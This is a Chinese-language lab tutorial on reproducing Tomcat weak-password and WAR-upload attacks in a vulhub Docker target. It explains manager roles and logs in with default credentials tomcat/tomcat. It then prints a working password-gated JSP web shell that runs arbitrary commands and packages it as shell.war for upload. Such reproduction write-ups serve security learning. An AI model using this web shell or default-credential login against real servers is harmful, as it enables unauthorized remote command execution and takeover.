




# 漏洞复现——Tomcat弱口令与文件上传

# 一、Tomcat与弱口令、文件上传概述

## （一）Tomcat

1. Tomcat是由Apache软件基金会下属Jakarta项目开发的Servlet容器，实现了对Servlet和JavaServer Page（JSP）的支持，并提供了作为Web服务器的一些特有功能。因Tomcat本身也包含HTTP服务器，因此也可视作单独的Web服务器。Tomcat的Servlet引擎通常与Apache或其他Web服务器一起工作。

2. Tomcat7+的权限如下：
   - manager（后台管理）  
   - manager-gui 拥有html页面权限  
   - manager-status 拥有查看status的权限  
   - manager-script 拥有text接口的权限，和status权限  
   - manager-jmx 拥有jmx权限，和status权限
   - host-manager（虚拟主机管理）  
   - admin-gui 拥有html页面权限  
   - admin-script 拥有text接口权限

## （二）Tomcat弱口令

1. 在Tomcat Manager的默认配置中，用户信息是被注释掉的，也就是说，Tomcat中默认没有用户信息，只有当手动修改了conf/tomcat-user.xml时，Tomcat就有可能出现弱口令漏洞。

## （三）Tomcat文件上传

1. war包时用来进行Web开发时一个网站的所有代码，包括前台HTML/CSS、JS和后台JavaWeb的代码，当开发人员开发完毕后，将源码打包给测试人员测试，测试完毕后若要发布则会打包成war包进行发布。
2. war包可以放在Tomcat下的webapps或work目录，当Tomcat服务器启动时，war包即会随之解压源代码来进行自动部署。
3. Tomcat支持后台部署.war文件，可直接部署在Web目录下，当攻击者将一个jsp后门文件压缩成.zip文件并修改后缀为war，即可将jsp后门文件通过Tomcat上传，上传成功后Tomcat将自动解压部署，从而导致后门文件被执行，造成攻击。

# 二、漏洞复现

1. 进入靶机vulhub下的tomcat/tomcat8目录，docker启动环境

   ``` shell
   sudo docker-compose up -d
   ```

2. 访问靶机IP:8080/manager/html，输入tomcat/tomcat，成功进入Tomcat的管理页面

   

3. 制作一个jsp马

   ``` jsp
   <%
       if("thisispasswd".equals(request.getParameter("pwd"))){
           java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
           int a = -1;          
           byte[] b = new byte[1024];          
           out.print("<pre>");          
           while((a=in.read(b))!=-1){
               out.println(new String(b));          
           }
           out.print("</pre>");
       }
   %>
   ```

4. 将jsp文件制作成war包

   ``` java
   jar -cvf shell.war shell.jsp
   ```

5. 上传制作好的war包

   

6. 上传成功，返回消息OK，新增目录`/shell`

   

7. 访问jsp木马，路径是/[war包名]/[.jsp文件名]，成功执行任意命令

   